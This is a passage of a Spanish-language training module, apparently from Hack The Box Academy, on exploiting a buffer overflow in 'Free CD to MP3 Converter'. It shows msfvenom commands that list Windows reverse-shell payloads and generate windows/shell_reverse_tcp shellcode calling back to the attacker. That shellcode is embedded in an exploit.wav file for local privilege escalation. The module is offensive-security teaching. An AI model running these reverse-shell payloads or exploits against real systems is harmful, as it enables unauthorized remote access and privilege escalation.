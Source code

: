 Si quisiéramos obtener un shell inverso, hay muchas `msfvenom`cargas útiles que podemos usar, de las cuales podemos obtener una lista de la siguiente manera:

```shell-session
lilscott6x9@htb[/htb]$ msfvenom -l payloads | grep windows | grep reverse

...SNIP...
    windows/shell/reverse_tcp                           Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_allports                  Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/shell/reverse_tcp_dns                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4_dns                   Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_uuid                      Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell/reverse_udp                           Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
...SNIP...
```

Podemos usar la `windows/shell_reverse_tcp`carga útil de la siguiente manera:

```shell-session
lilscott6x9@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
...SNIP...
```

Podemos reemplazar el `buf`código shell en nuestro exploit con cualquiera de estos y probarlo. Supongamos que tenemos acceso a una máquina donde tenemos el privilegio de ejecutar este programa como administrador. Escribiremos el código shell para la escalada de privilegios locales en nuestro exploit, generaremos nuestro `exploit.wav`archivo y lo cargaremos en el programa:

![Administrador CMD](https://academy.hackthebox.com/storage/modules/89/win32bof_cmd_admin.jpg)

Como podemos ver, esta vez `cmd.exe`apareció una ventana, y vemos en su título `Administrator`, lo que significa que efectivamente se está ejecutando con privilegios escalados, coincidiendo con el usuario que estaba ejecutando `Free CD to MP3 Converter`.
